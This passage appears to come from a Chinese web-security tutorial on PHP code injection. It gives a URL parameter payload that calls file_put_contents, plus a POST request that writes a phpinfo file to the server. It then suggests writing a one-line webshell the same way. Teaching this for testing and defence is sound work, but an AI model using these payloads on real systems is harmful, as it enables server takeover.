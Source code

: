 #### 3.3.5.2. 拼接代码

在URL后面添加?a=var_dump(file_put_contents(\$\_POST\[1\],\$\_POST\[2\]));然后使用Post发送1=info.php&2=\<?php phpinfo();?\>。

![image-20230413145208612](assets/OU4vrJdaL3uMnTb.png)

#### 3.3.5.3. 访问info.php

这个新生成的页面是在当前目录下，也就是说你访问的是根目录，那么文件就在根目录下，那么这里可以看到我们已经成功生成了，那么如果我们生成的是一个一句话木马呢？

![image-20230413145214768](assets/lHuFY2jvQX7cRMg.png)
